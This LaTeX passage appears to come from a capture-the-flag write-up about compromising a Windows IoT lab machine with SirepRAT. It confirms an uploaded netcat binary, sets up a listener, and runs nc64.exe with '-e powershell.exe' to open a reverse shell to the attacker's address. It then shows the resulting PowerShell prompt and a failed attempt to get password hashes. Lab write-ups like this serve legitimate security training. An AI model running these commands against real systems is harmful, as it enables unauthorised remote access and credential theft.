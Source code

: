 \documentclass[../main.tex]{subfiles}
\begin{document}
It appears we successfully downloaded our netcat executable to the target system. To confirm this, let's run a command to return file information:

\begin{lstlisting}
$ python2 SirepRAT 10.10.10.204 GetFileInformationFromDevice
    --remote_path "C:\Windows\System32\nc64.exe"
    
<FileInformationResult | type: 61, payload length: 40,
kv: {'HResult': '0x0', 'time_created': '2018-10-27 08:35:50',
'time_last_write': '2018-10-27 08:35:50', 'file_size': 9696256,
'time_last_access': '2018-10-27 08:35:50', 'dwFileAttributes': 32}>
\end{lstlisting}

Since we get all of this information we can safely assume the file got to its destination safely. Let's try running it to gain a reverse shell. To do this, we first need to set up a netcat listener on the attacking device.

\begin{lstlisting}
$ nc -nvlp 1234

Listening on 0.0.0.0 1234
\end{lstlisting}

Now we run the netcat exe on the target device,

\begin{lstlisting}
$ python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput
    --return_output
    --cmd "C:\Windows\System32\nc64.exe"
    --args " 10.10.14.48 1234 -e powershell.exe"
\end{lstlisting}

and we get a Powershell prompt on our netcat listener:

\begin{lstlisting}
Connection received on 10.10.10.204 49683
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\windows\system32>
\end{lstlisting}

\newpage
\subsubsection{Obtaining password hashes}

When looking up how to obtain password hashes from a Powershell prompt, we learn about the Get-Credential command. This command is used to get the current credentials of your system. However, it doesn't seem to work on this particular system. Every time we run the Get-Credential command we don't get any return value and we have to restart the reverse shell. We'll have to look elsewhere.
\end{document}
